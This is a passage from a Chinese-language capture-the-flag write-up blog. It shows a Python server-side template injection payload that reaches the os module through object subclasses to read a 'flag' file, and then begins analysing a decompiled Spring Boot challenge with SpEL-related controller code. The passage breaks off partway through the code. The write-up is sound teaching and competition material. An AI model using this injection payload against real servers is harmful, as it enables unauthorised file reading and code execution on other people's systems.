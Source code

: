 ```Python
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].read([].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].open("flag",[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].O_RDONLY),40)}}
```

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538581439382.jpg)

最终得到flag
**`xgctf{tthis_1s_Fl@sk_SSTI}!`**

-------

### 7.Spring

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540469977325.jpg)

这题的完成真的是爽，作为分值最大的题，能做出来让我非常的的开心hhh😊
先看看题目的意思和网站

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540470751771.jpg)

发现是一个很正常不过的springboot项目，而且下面还很贴心的放入了源码，下载发现是一个编译好的jar包，作为一个WEB开发者，这种事情，直接放入`JD-GUI`反编译查看，毕竟开发者嘛，平时Ctrl+C和Ctrl+V是常事，反编译别人的包看懂别人的代码更是基本功

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540474108912.jpg)

可以看出整个目录结构清楚明了，简单查询了一下未发现任何明显的`xgctf`字样，毕竟是500分的重头题，配置文件中也没有任何关于数据库等方面的信息，说明是未有对接数据库，同时也就一些登录的信息让我有些注意。接下来就是猜猜，既然源码包都能给你，那起码密码不会在这包里，而且也没有数据库之类的对接，说明是在比赛服务器上跑这个WEB的环境中会有flag，对照之前的`我爱Python`这题，就更加肯定了想法，于是把源码拿到手，自己建立了这个项目，跑起来测试找漏洞。

>将源码放入自己的IDE后，发现了一些好玩的事情，作为开发者，自己的一套工具里集成了一套代码规范扫描等一些列的工具，发现该项目的编写者，很明显很多方面非常不严谨。
>
>![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15540482159516.jpg)

```java
rememberMeValue.equals("")
```

hh！比如说这些细节问题这里就不多说了

我们进入主题，先研究了他的`ctf.xg.challenge.MainController`

```java
package ctf.xg.challenge;

import ctf.xg.challenge.spel.SmallEvaluationContext;
import java.util.regex.Matcher;
import java.util.regex.Pattern;
import javax.servlet.http.Cookie;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.ParserContext;
import org.springframework.expression.common.TemplateParserContext;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.http.HttpStatus;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.CookieValue;
import org.springframework.web.bind.annotation.ExceptionHandler;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.ResponseStatus;
import org.springframework.web.client.HttpClientErrorException;
```